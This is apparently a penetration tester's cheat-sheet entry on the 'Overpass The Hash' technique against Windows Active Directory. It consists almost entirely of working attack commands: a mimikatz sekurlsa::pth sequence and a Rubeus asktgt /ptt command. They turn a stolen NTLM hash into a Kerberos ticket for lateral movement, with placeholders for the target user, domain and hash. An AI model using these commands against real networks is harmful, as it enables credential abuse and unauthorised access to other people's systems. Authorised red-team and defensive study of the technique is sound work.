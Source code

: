```yaml
---
id: Overpass The Hash
aliases:
  - Overpass The Hash
tags:
  - windows
  - AD
  - lateral
  - kerberos
  - ntlm
---
```

Gain a Kerberos TGT from a NTLM hash, then use it to forge a TGS.
## With mimikatz.exe

1. In mimikatz:
```mimikatz
privilege::debug
sekurlsa::pth /user:$TARGET_USER /domain:$DOMAIN /ntlm:$TARGET_HASH /run:powershell
```

2. Create a TGT by accessing a share on target
3. Check that the ticket was created with `klist`

## With Rubeus
```cmd
.\Rubeus.exe asktgt /domain:$DOMAIN /user:$TARGET_USER /rc4:$TARGET_HASH /ptt
```

Check that the ticket was created with `klist`
